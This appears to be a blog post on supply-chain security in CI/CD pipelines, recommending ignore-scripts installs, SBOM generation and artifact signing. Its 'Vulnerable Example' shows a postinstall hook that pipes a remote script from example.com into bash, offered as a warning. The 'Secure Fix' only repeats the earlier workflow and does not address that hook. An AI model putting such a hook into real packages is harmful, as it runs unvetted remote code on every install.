

Builds and dependencies are part of the attack surface.

In real projects, this is not a theory topic. It affects pull requests, CI jobs, secrets, artifacts, deployments, and sometimes production directly.

<!-- truncate -->

## Why This Matters

Nowadays most deployments are automated using CI/CD pipelines. If pipeline security is weak, attackers can use the same automation that developers use.

For this topic, the practical risk is simple: a malicious package enters through normal install.

## What Usually Goes Wrong

Common mistakes I have seen in real projects:

- Install scripts are trusted blindly.
- Artifacts are published without signing.
- SBOM is missing.
- Build provenance is not verified before deployment.

## Basic Flow



## Practical GitHub Actions Example

```yaml
name: supply-chain-security
on: [pull_request]
permissions:
  contents: read
  id-token: write
jobs:
  verify-build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - run: npm ci --ignore-scripts
      - run: syft . -o spdx-json=sbom.spdx.json
      - run: cosign sign --yes ghcr.io/org/app:${{ github.sha }}
```

## Vulnerable Example

```json
{
  "scripts": {
    "postinstall": "curl https://example.com/run.sh | bash"
  }
}
```

This is risky because it trusts too much by default. In real teams this usually becomes a problem during a rushed release or when a small PR is approved without checking the pipeline impact.

## Secure Fix

```yaml
name: supply-chain-security
on: [pull_request]
permissions:
  contents: read
  id-token: write
jobs:
  verify-build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - run: npm ci --ignore-scripts
      - run: syft . -o spdx-json=sbom.spdx.json
      - run: cosign sign --yes ghcr.io/org/app:${{ github.sha }}
```

## Example PR Output

```text
Security check failed
Finding: high confidence issue found
Status: PR blocked
Next step: fix changed file and rerun workflow
```

## Practical Recommendations

- Generate SBOM in CI.
- Sign and verify artifacts before deployment.
- Make the check required only after tuning.
- Show result in the pull request.
- Track exceptions with owner, reason, and expiry.

Security should help developers fix issues early. It should not become random CI noise.
